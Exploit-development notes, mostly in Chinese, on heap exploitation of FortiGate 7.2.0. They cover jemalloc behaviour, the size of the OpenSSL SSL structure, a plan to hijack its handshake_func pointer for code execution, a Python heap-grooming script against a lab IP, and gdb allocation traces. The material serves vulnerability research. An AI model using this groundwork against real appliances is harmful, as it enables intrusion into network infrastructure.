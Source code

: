 # FGT 7_2_0

### 内存分配器

分析发现，FGT基本全使用jemalloc进行内存分配

通过代码分析发现：

```
CRYPTO_set_mem_functions(sub_1716960, sub_1716990, sub_1716980) 
```

指定SSL结构体的分配器为jemalloc

```
#0  0x00007f07161e1a90 in je_malloc () from /usr/lib/x86_64-linux-gnu/libjemalloc.so.2
#1  0x0000000001716969 in ?? ()
#2  0x00007f07157d08ca in CRYPTO_zalloc () from /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
#3  0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#4  0x00000000017111c2 in ?? ()
```

### jemalloc

jemalloc 源码分析：https://youjiali1995.github.io/allocator/jemalloc/

Jemalloc 源码分析: https://blog.csdn.net/liuxunwei1/article/details/138155256

As it sounded pretty hard to get anything working, we took a look at the underlying allocator, to see if there were any way to leverage the bug.

The underlying heap, jemalloc, was unknown to us at the time. We were in a hurry (understand: I ragequit when trying to make shadow work) and not looking to acquire a deep understanding of it. Here's what we learned about it:

- Heap metadata is stored independently; you can safely overflow from one chunk (region) to another
- You can easily get contiguous allocations (after filling holes)
- There is some kind of LIFO mechanism on allocations of the same size: freeing a chunk of size N and allocating the same size yields the same pointer.

The last point actually makes the exploitation very much easier: we can allocate the buffer we overflow from, out, at the same address, repeatedly.

版本定位：

```
/ # busybox strings /lib/libjemalloc.so.2  | grep 5
5.2.1-0-gea6b3e973b477b8061e0076bb257dbd7f3faa756
```

### SSL 结构体

通过openssl 中的函数 SSL_new 可以定位 SSL 结构体分配的大小以及位置，该函数的实现位于/lib/libssl.so.1.1中

```c
__int64 __fastcall SSL_new(__int64 a1)
{
........................................
  v3 = CRYPTO_zalloc(6280LL, "ssl/ssl_lib.c", 691LL);
........................................
}
```

大小6280（0x1888）

```
(gdb) bt
#0  0x00007f07161e1a90 in je_malloc () from /usr/lib/x86_64-linux-gnu/libjemalloc.so.2
#1  0x0000000001716969 in ?? ()
#2  0x00007f07157d08ca in CRYPTO_zalloc () from /usr/lib/x86_64-linux-gnu/libcrypto.so.1.1
#3  0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
#4  0x00000000017111c2 in ?? ()
#5  0x000000000171384c in ?? ()
#6  0x000000000171481c in ?? ()
#7  0x00000000017150e4 in ?? ()
#8  0x0000000001715d47 in ?? ()
#9  0x0000000001716f42 in ?? ()
#10 0x0000000001717236 in ?? ()
#11 0x0000000001717e5d in ?? ()
#12 0x000000000044c88f in ?? ()
#13 0x00000000004554ca in ?? ()
#14 0x000000000045212c in ?? ()
#15 0x0000000000454738 in ?? ()
#16 0x0000000000455061 in ?? ()
#17 0x00007f0715b89deb in __libc_start_main () from /usr/lib/x86_64-linux-gnu/libc.so.6
#18 0x0000000000447daa in ?? ()
(gdb) print $rdi
$1 = 6280
```

常规利用方式为：修改SSL结构体的handshake_func函数指针字段，触发：

```c
int SSL_do_handshake(SSL *s)
{
    int ret = 1;

    if (s->handshake_func == NULL) {
        SSLerr(SSL_F_SSL_DO_HANDSHAKE, SSL_R_CONNECTION_TYPE_NOT_SET);
        return -1;
    }

    ossl_statem_check_finish_init(s, -1);

    s->method->ssl_renegotiate_check(s, 0);

    if (SSL_in_init(s) || SSL_in_before(s)) {
        if ((s->mode & SSL_MODE_ASYNC) && ASYNC_get_current_job() == NULL) {
            struct ssl_async_args args;

            args.s = s;

            ret = ssl_start_async_job(s, &args, ssl_do_handshake_intern);
        } else {
            ret = s->handshake_func(s);
        }
    }
    return ret;
}
```

函数，从而达到任意代码执行

#####  ssl 分配地址情况

python测试脚本：

```python
#!/usr/bin/python3
import http.client
import ssl
import socket
import re
import urllib.parse
import time
import hashlib

HOST = "192.168.182.188"
PORT = 8443  

CIPHERS = "ECDHE-RSA-AES256-SHA@SECLEVEL=0"
context = ssl.create_default_context()
context.minimum_version = ssl.TLSVersion.MINIMUM_SUPPORTED
context.set_ciphers(CIPHERS)
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

def create_ssl_socket():
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((HOST, PORT))
    ssl_sock = context.wrap_socket(sock)
    return ssl_sock

ssl_socks = []

for i in range(100):
    sk = create_ssl_socket()
    ssl_socks.append(sk)

```

gdb 脚本：

```
handle SIGPIPE nostop
break *SSL_new + 0x35
commands
    print /x $rax 
    continue
end
```

```

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$633 = 0x7f070fe59000

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$634 = 0x7f070fe5ac00

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$635 = 0x7f070fe5c800

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$636 = 0x7f070fe5e400

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$637 = 0x7f070fe81000

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$638 = 0x7f070fe82c00

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$639 = 0x7f070fe84800

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$640 = 0x7f070fe86400

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$641 = 0x7f070fe88000

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$642 = 0x7f070fe89c00

Breakpoint 3, 0x00007f07155d8935 in SSL_new () from /usr/lib/x86_64-linux-gnu/libssl.so.1.1
$643 = 0x7f070fe8b800

```

每个ssl结构体的地址相差大小为0x1c00(7168)
